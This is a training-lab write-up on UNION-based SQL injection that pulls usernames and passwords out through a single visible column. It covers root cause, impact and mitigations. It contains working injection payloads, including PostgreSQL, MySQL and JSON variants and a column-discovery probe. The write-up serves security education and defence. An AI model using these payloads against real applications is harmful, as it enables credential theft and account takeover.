

# Lab 10: SQL injection UNION attack, retrieving multiple values in a single column

## Category
SQL Injection - UNION-based (Single Column Data Exfiltration)

## Vulnerability Summary
The website's product filtering feature contains a SQL injection vulnerability that allows attackers to retrieve multiple values from the database in a single column. When the application only displays one column in its output, attackers can concatenate multiple field values (e.g., username and password) into a single column using string concatenation operators. This technique bypasses the limitation of having only one visible output column and enables complete credential extraction.

## Steps to Reproduce
1. Navigate to the e-commerce website's product category filter.
2. Determine the number of columns using NULL injection (3 columns identified).
3. Identify that only one column is displayed in the output (column 2 from previous labs).
4. Craft a UNION SELECT payload that concatenates multiple values into the visible column:
   - Payload: `'+UNION+SELECT+NULL,username||'~'||password,NULL+FROM+users--`
5. Submit the payload via the category filter parameter.
6. Observe the response - concatenated username and password values appear in the output.
7. Verify successful exploitation by checking that credentials are displayed in the format: `username~password`.
8. Use extracted credentials to log in as administrator.




## Technical Root Cause
The vulnerability stems from improper handling of user input in SQL query construction combined with limited output display:

- **Unsanitized Input:** User input from the category filter is directly concatenated into SQL queries.
- **Missing Parameterization:** The application does not use parameterized queries or prepared statements.
- **Single Column Output:** The application only displays one column from the query result.
- **String Concatenation Exploitation:** Database string concatenation operators (`||` in PostgreSQL/Oracle) allow combining multiple fields.
- **Cross-Table Access:** The database user has SELECT permissions on the users table.
- **Visible Output:** Concatenated data appears in the HTML response, confirming successful exploitation.
- **No Input Validation:** The application accepts SQL operators and special characters without validation.

### Payload Used
```
'+UNION+SELECT+NULL,username||'~'||password,NULL+FROM+users--
```

URL-encoded payload in category filter:
```
/filter?category='+UNION+SELECT+NULL,username||'~'||password,NULL+FROM+users--
```

How it works:
- The original query likely looks like: `SELECT * FROM products WHERE category = 'input' AND released = 1`
- The injection transforms it to: `SELECT * FROM products WHERE category = '' UNION SELECT NULL, username||'~'||password, NULL FROM users--' AND released = 1`
- The `'` closes the category string value.
- The `UNION SELECT NULL, username||'~'||password, NULL FROM users` combines product data with concatenated user credentials.
- The `||` operator concatenates username and password into a single column.
- The `~` separator allows easy parsing of the concatenated values.
- The `FROM users` specifies the target table for data extraction.
- The `--` comments out the rest of the original query.

### String Concatenation Operators by Database

| Database | Concatenation Operator | Example |
|----------|----------------------|---------|
| PostgreSQL | `||` | `username||'~'||password` |
| Oracle | `||` | `username||'~'||password` |
| MySQL | `CONCAT()` | `CONCAT(username,'~',password)` |
| SQL Server | `+` | `username+'~'+password` |
| SQLite | `||` | `username||'~'||password` |

### Alternative Payloads for Single Column Output

| Technique | Payload |
|-----------|---------|
| Concatenation (PostgreSQL/Oracle) | `'+UNION+SELECT+NULL,username||'~'||password,NULL+FROM+users--` |
| CONCAT function (MySQL) | `'+UNION+SELECT+NULL,CONCAT(username,'~',password),NULL+FROM+users--` |
| Multiple rows | `'+UNION+SELECT+NULL,username,NULL+FROM+users--` |
| JSON format | `'+UNION+SELECT+NULL,json_build_object('user',username,'pass',password),NULL+FROM+users--` |

### Column Discovery for Single Column Output
When only one column is visible:
1. Test each column position to find which one is displayed.
2. Use `'+UNION+SELECT+NULL,'test',NULL--` in each position.
3. The position that shows "test" in the output is the visible column.
4. Place all concatenated data in that column position.

## Impact
- **Complete Credential Exposure:** Attackers can extract both usernames and passwords despite single column limitation.
- **Account Takeover:** Extracted administrator credentials allow full administrative access.
- **Data Breach:** All user credentials in the database can be extracted systematically.
- **Privilege Escalation:** Admin access enables further exploitation and data access.
- **Compliance Violation:** Violates data protection regulations (GDPR, PCI-DSS, HIPAA).
- **Legal Liability:** Organization may face lawsuits and regulatory fines.
- **Reputation Damage:** Public disclosure of data breach severely affects user trust.
- **Bypass Security Controls:** Single column output is not an effective security control.

## Mitigation
1. **Parameterized Queries:** Use prepared statements with parameterized queries for all database operations.
2. **Input Validation:** Implement strict input validation allowing only expected category values.
3. **Whitelist Approach:** Use a whitelist of valid category names instead of accepting raw input.
4. **Least Privilege:** Database accounts should have minimal permissions - restrict access to only necessary tables.
5. **Error Handling:** Implement generic error messages that don't reveal database structure information.
6. **ORM Usage:** Consider using Object-Relational Mapping (ORM) frameworks that handle SQL safely.
7. **Web Application Firewall:** Deploy WAF rules to detect and block UNION-based SQL injection attempts.
8. **Regular Security Testing:** Conduct periodic penetration testing and code reviews for SQL injection.
9. **Data Encryption:** Encrypt sensitive data at rest to limit impact of successful extraction.
10. **Access Monitoring:** Implement logging and alerting for suspicious database queries.
11. **Output Encoding:** Apply proper output encoding to prevent injected data from rendering in HTML.
12. **Column Count Hardening:** Ensure applications handle unexpected column counts gracefully.

---
*Lab completed on: 2026-03-17*
